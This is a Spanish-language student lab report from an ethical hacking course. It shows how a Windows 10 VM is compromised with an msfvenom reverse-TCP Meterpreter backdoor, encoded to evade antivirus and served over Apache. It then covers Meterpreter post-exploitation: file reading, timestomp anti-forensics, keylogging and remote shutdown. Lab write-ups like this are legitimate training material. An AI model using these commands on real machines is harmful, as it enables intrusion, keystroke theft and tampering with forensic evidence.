# 🛡️ Lab 2.2 — Hackear una Máquina Windows con Metasploit y Post-Explotación con Meterpreter

> **Módulo 06 - System Hacking**  
> **Curso:** Ethical Hacking and Countermeasures — EC-Council  
> **Estudiante:** Junior Santos  
> **Fecha:** 14 de junio de 2026  
> **Entorno:** VMware — Kali Linux 2025.3 (Atacante) + Windows 10 (Víctima)

> ## **Video demostrativo:** ## 
> ## https://www.youtube.com/watch?v=IhdD9W5Fx24 ##

---

## 📋 Tabla de Contenidos

1. [Objetivo](#objetivo)
2. [Entorno de Laboratorio](#entorno-de-laboratorio)
3. [Fase 1 — Reconocimiento de Red](#fase-1--reconocimiento-de-red)
4. [Fase 2 — Creación del Payload Malicioso](#fase-2--creación-del-payload-malicioso)
5. [Fase 3 — Configuración del Servidor HTTP](#fase-3--configuración-del-servidor-http)
6. [Fase 4 — Configuración del Listener en Metasploit](#fase-4--configuración-del-listener-en-metasploit)
7. [Fase 5 — Ejecución en la Víctima](#fase-5--ejecución-en-la-víctima)
8. [Fase 6 — Sesión Meterpreter Establecida](#fase-6--sesión-meterpreter-establecida)
9. [Fase 7 — Post-Explotación](#fase-7--post-explotación)
10. [Fase 8 — Keylogging](#fase-8--keylogging)
11. [Fase 9 — Apagado Remoto](#fase-9--apagado-remoto)
12. [Conclusiones](#conclusiones)
13. [Conceptos Aprendidos](#conceptos-aprendidos)

---

## 🎯 Objetivo

Demostrar cómo un atacante puede comprometer una máquina Windows utilizando un payload generado con **msfvenom**, establecer una sesión remota con **Meterpreter** a través de Metasploit, y ejecutar técnicas de **post-explotación** como:

- Obtención de información del sistema
- Lectura de archivos sensibles
- Manipulación de atributos MACE (anti-forense)
- Captura de keystrokes (keylogging)
- Apagado remoto del sistema víctima

> ⚠️ **AVISO LEGAL:** Este laboratorio se realizó en un entorno virtual controlado con fines exclusivamente educativos. Replicar estas técnicas en sistemas sin autorización es ilegal.

---

## 🖥️ Entorno de Laboratorio

| Máquina | Sistema Operativo | IP | Rol |
|---|---|---|---|
| Atacante | Kali Linux 2025.3 | `192.168.1.100` | Genera payload y escucha conexiones |
| Víctima | Windows 10 (Build 19045) | `192.168.1.50` | Ejecuta el backdoor |

**Herramientas utilizadas:**
- `msfvenom` — Generación de payloads
- `Metasploit Framework v6.4.101` — Framework de explotación
- `Meterpreter` — Shell avanzado post-explotación
- `Apache2` — Servidor HTTP para distribuir el payload

---

## Fase 1 — Reconocimiento de Red

### Verificación de IP del atacante

Antes de comenzar, se verificó la dirección IP de la máquina atacante (Kali Linux) con el comando `ip a`:

```bash
ip a
```

**Resultado:** La interfaz `eth0` tiene asignada la IP `192.168.1.100/24`, que será usada como `LHOST` en todos los pasos siguientes.


*Figura 1 — Identificación de la IP del atacante: `192.168.1.100`*

---

## Fase 2 — Creación del Payload Malicioso

### Preparación en la máquina víctima (Windows 10)

En la máquina Windows se creó un archivo `secret.txt` con información sensible simulada para ser utilizado como objetivo durante la post-explotación:


*Figura 2 — Archivo secret.txt creado en la víctima con número de tarjeta de crédito simulado*


*Figura 3 — El archivo secret.txt visible en la carpeta Downloads de la víctima*

---

### Generación del Backdoor con msfvenom

Desde Kali Linux se generó el ejecutable malicioso `Backdoor.exe`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=192.168.1.100 -f exe > Desktop/Backdoor.exe
```

| Parámetro | Descripción |
|---|---|
| `-p windows/meterpreter/reverse_tcp` | Payload de conexión inversa con Meterpreter |
| `--platform windows` | Plataforma objetivo |
| `-a x86` | Arquitectura de 32 bits |
| `-e x86/shikata_ga_nai` | Encoder para ofuscar y evadir antivirus |
| `-b "\x00"` | Excluye bytes nulos que rompen el payload |
| `LHOST=192.168.1.100` | IP del atacante donde se conectará la víctima |
| `-f exe` | Formato de salida: ejecutable Windows |

**Resultado:** Payload generado exitosamente con tamaño final de **7168 bytes**.

Luego se copió al directorio web de Apache con permisos de superusuario:

```bash
sudo cp /home/kali/Desktop/Backdoor.exe /var/www/html/share/
```


*Figura 4 — msfvenom genera Backdoor.exe con encoder shikata_ga_nai y lo copia al servidor web*

---

## Fase 3 — Configuración del Servidor HTTP

El archivo `Backdoor.exe` fue servido a través de **Apache2** en el directorio `/var/www/html/share/`, accesible desde la red local en:

```
http://192.168.1.100/share/
```

La víctima accedió a esta URL desde su navegador (Microsoft Edge) y descargó el archivo. Windows Defender detectó el archivo como virus en los primeros intentos, siendo necesario desactivar la protección en tiempo real para completar la descarga.


*Figura 5 — Windows detecta Backdoor.exe como virus; fue necesario desactivar Windows Defender*


*Figura 6 — Backdoor.exe y secret.txt visibles en la carpeta Downloads de la víctima*

---

## Fase 4 — Configuración del Listener en Metasploit

### Lanzamiento de Metasploit

```bash
msfconsole
```


*Figura 7 — Metasploit Framework v6.4.101 iniciado correctamente*

### Configuración del Handler

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
show options
```


*Figura 8 — Configuración del payload y LHOST en el multi/handler*


*Figura 9 — show options confirma LHOST=192.168.1.100 y LPORT=4444*

### Activación del listener

```bash
exploit -j -z
```

- `-j` → Corre el exploit en segundo plano (background job)
- `-z` → No interactúa automáticamente con la sesión

---

## Fase 5 — Ejecución en la Víctima

La víctima ejecutó `Backdoor.exe` desde su carpeta de Descargas. Windows mostró una advertencia de seguridad indicando que el editor no podía ser verificado. Al presionar **"Run"**, el payload se ejecutó en segundo plano.


*Figura 10 — Windows advierte sobre el ejecutable de editor desconocido; la víctima presiona "Run"*

---

## Fase 6 — Sesión Meterpreter Establecida

Al ejecutarse el backdoor en la víctima, Metasploit capturó la conexión entrante automáticamente:

```
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] Sending stage (188998 bytes) to 192.168.1.50
[*] Meterpreter session 1 opened (192.168.1.100:4444 → 192.168.1.50:50342)
```

Se ingresó a la sesión con:

```bash
sessions -i 1
```

### Información del sistema comprometido

```bash
meterpreter > sysinfo
```

| Campo | Valor |
|---|---|
| Computer | DESKTOP-C4ACS2J |
| OS | Windows 10 22H2+ (Build 19045) |
| Architecture | x64 |
| Domain | WORKGROUP |
| Logged On Users | 2 |
| Meterpreter | x86/windows |


*Figura 11 — Sesión Meterpreter 1 abierta; sysinfo revela información completa del sistema víctima*

### Interfaces de red de la víctima

```bash
meterpreter > ipconfig
```


*Figura 12 — ipconfig muestra que la víctima tiene IP 192.168.1.50 en interfaz Intel 82574L*

---

## Fase 7 — Post-Explotación

### Navegación y lectura de archivos

```bash
meterpreter > getuid
meterpreter > pwd
meterpreter > ls
meterpreter > cat secret.txt
```

**Resultados obtenidos:**

| Comando | Resultado |
|---|---|
| `getuid` | `DESKTOP-C4ACS2J\junior1599` |
| `pwd` | `C:\Users\junior1599\Downloads` |
| `cat secret.txt` | `My credit card account number 123456789` |


*Figura 13 — Acceso al sistema de archivos de la víctima; se lee el contenido de secret.txt*

---

### Manipulación de atributos MACE (Anti-Forense)

Los atributos **MACE** (Modified, Accessed, Created, Entry Modified) son metadatos que registran cuándo fue tocado un archivo. Un atacante los modifica para borrar rastros forenses.

#### Ver atributos actuales:

```bash
meterpreter > timestomp secret.txt -v
```

```
Modified      : 2026-06-14 17:54:39 -0400
Accessed      : 2026-06-14 18:05:21 -0400
Created       : 2026-06-14 17:53:50 -0400
Entry Modified: 2026-06-14 17:54:39 -0400
```

#### Falsificar la fecha de modificación:

```bash
meterpreter > timestomp secret.txt -m "02/11/2018 08:10:03"
```

#### Verificación del cambio:

```
Modified      : 2018-02-11 08:10:03 -0500  ← ✅ Falsificado
Accessed      : 2026-06-14 18:07:18 -0400
Created       : 2026-06-14 17:53:50 -0400
Entry Modified: 2026-06-14 17:54:39 -0400
```


*Figura 14 — timestomp cambia la fecha de modificación a 2018, ocultando la actividad del atacante*

---

### Búsqueda de archivos en el sistema

```bash
meterpreter > cd c:/
meterpreter > search -f pagefile.sys
```

**Resultado:** Se encontró `c:\pagefile.sys` de **2.81 GB**, un archivo de memoria virtual del sistema.


*Figura 15 — Comando search localiza pagefile.sys en el directorio raíz de C:*

---

## Fase 8 — Keylogging

### Inicio del sniffer de teclado

```bash
meterpreter > keyscan_start
```

```
Starting the keystroke sniffer ...
```


*Figura 16 — El keylogger se inicia exitosamente en la sesión Meterpreter*

### Actividad en la víctima

En la máquina Windows 10, la víctima abrió el Bloc de Notas y escribió texto:


*Figura 17 — La víctima escribe "Hola mundo" en un documento de texto sin saber que es capturado*

### Captura de keystrokes

```bash
meterpreter > keyscan_dump
```

**Resultado capturado:**
```
<Caps Lock>H<Caps Lock>ola mundo
```

El atacante capturó en tiempo real todo lo que escribió la víctima.


*Figura 18 — keyscan_dump revela las teclas capturadas: "Hola mundo" escrito por la víctima*

---

## Fase 9 — Apagado Remoto

Como demostración final del control total sobre el sistema víctima, se ejecutaron dos comandos adicionales:

```bash
meterpreter > idletime
# User has been idle for: 1 min 32 secs

meterpreter > shutdown
# Shutting down ...
```

La sesión se cerró automáticamente al apagarse la víctima:

```
[*] 192.168.1.50 - Meterpreter session 1 closed. Reason: Died
```


*Figura 19 — El atacante ejecuta shutdown; la sesión Meterpreter se cierra al apagarse la víctima*


*Figura 20 — La máquina víctima Windows 10 se apaga remotamente por orden del atacante*

---

## ✅ Conclusiones

Este laboratorio demostró el ciclo completo de un ataque con Metasploit sobre Windows 10:

1. **Generación del payload** con msfvenom usando encoder para evadir antivirus
2. **Distribución** del backdoor a través de un servidor HTTP local (Apache2)
3. **Captura de la conexión** inversa con el multi/handler de Metasploit
4. **Post-explotación** con Meterpreter: lectura de archivos, información del sistema, interfaces de red
5. **Anti-forense** con timestomp para falsificar fechas de archivos accedidos
6. **Keylogging** para capturar pulsaciones de teclado en tiempo real
7. **Control total** demostrado con apagado remoto del sistema

---

## 📚 Conceptos Aprendidos

| Concepto | Descripción |
|---|---|
| **Reverse TCP** | La víctima inicia la conexión hacia el atacante, evadiendo firewalls |
| **msfvenom** | Herramienta para crear payloads personalizados y codificados |
| **shikata_ga_nai** | Encoder polimórfico que dificulta la detección por antivirus |
| **Meterpreter** | Shell avanzado en memoria que no escribe archivos en disco |
| **MACE** | Atributos de tiempo de archivos usados en análisis forense |
| **timestomp** | Técnica anti-forense para falsificar metadatos de archivos |
| **Keylogger** | Captura de pulsaciones de teclado de la víctima en tiempo real |
| **Background job** | Ejecutar el handler en segundo plano con `-j -z` |

---

> 📌 **Nota:** Todo el laboratorio fue ejecutado en un entorno virtual aislado (VMware) con fines académicos dentro del programa EC-Council Ethical Hacking and Countermeasures. Ningún sistema real fue comprometido.
